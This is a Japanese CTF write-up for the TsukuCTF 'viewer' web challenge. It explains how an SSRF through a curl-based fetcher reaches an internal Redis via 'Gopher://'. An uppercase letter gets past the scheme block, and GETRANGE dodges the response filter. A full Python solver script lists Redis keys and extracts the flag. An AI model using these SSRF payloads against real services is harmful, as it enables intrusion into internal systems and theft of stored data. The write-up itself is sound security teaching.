 ```yaml
---
title: viewer
description: Writeups for TsukuCTF21 have been published. Check them out if you'd like!
author: task4233
genre: Web
solver: 8
point: 500
---
```


# viewer
ページにアクセスすると登録を促されるため、ユーザ名を入力して登録する。
すると、昨年のCTFのWriteupを閲覧できるページに遷移する。
selectで選択した記事を見れるサイトらしい。

## 難易度
Medium

## 解法
配布されているソースコードを読むと、redisの中にFLAGが含まれていることがわかる。
curlでredisということは、別プロトコルを利用したSSRFが思い浮かぶ。
Flagが存在している場所は`app.py` 上かredis内部であるため、いずれかの情報を抜き取りたい。
前者は `file://` scheme、後者は `gopher://` schemeを利用することになりそうだ。

しかし、前者は以下の `response_sanitizer` によってサニタイズされるため、後者を利用することにする。

```python
# app.py
# a response is also sanitized just in case because the flag is super sensitive information.
blacklist_in_response = ['TsukuCTF22']

def response_sanitizer(body: str) -> str:
    if any([scheme in body for scheme in blacklist_in_response]):
        return "SANITIZED: a sensitive data is included!"
    return body
```

`gopher://` は禁止されているように見えるが、大文字を含めることで回避できる。

ただし、gopherで対象のvalueを取るために、redisのkeyを知る必要がある。
keyはredisの `keys *` で全列挙できるため、全てのkeyを列挙してresponseにflagが含まれるものを選択すれば良い。

また、`TsukuCTF22`という文字列を含む場合はsanitizeされるが、`GETRANGE` で一部を抜き出すことで対処できる。
したがって、方針は以下の通りになる。
まず、redisに含まれるkeyを全列挙し、次にGETRANGEで列挙したものの一部を読み取る。

solverは以下の通り。

```python
import requests
from urllib.parse import quote
import re
import sys

# CHANGE HERE with an appropriate url
TARGET_URL = "http://127.0.0.1:31555"

# enumerate redis keys
form = {
    "url": "Gopher://redis:6379/+" + quote("keys *\r\nQUIT\r\n")
}
cookies = {
    "__SESSION_ID": "d8c7d141-b8da-416b-a220-d8d7218c8bbc", # dummy session id
}
res = requests.post(TARGET_URL, data=form, cookies=cookies)

session_id_list = re.findall("(.+-.+-.+-.+-.+)\r", res.text)
# print(session_id_list)

# check redis value
for session_id in session_id_list:
    form["url"] = "Gopher://redis:6379/+" + quote(f"GETRANGE {session_id} 60 -1\r\nQUIT\r\n")
    cookies["__SESSION_ID"] = session_id
    res = requests.post(TARGET_URL, data=form, cookies=cookies)
    if "CTF22{" in res.text:
        print("TsukuCTF22{" + res.text[res.text.find("CTF22{") + len("CTF22{"):res.text.find("}&#34;")] + "}")
        sys.exit(0)

```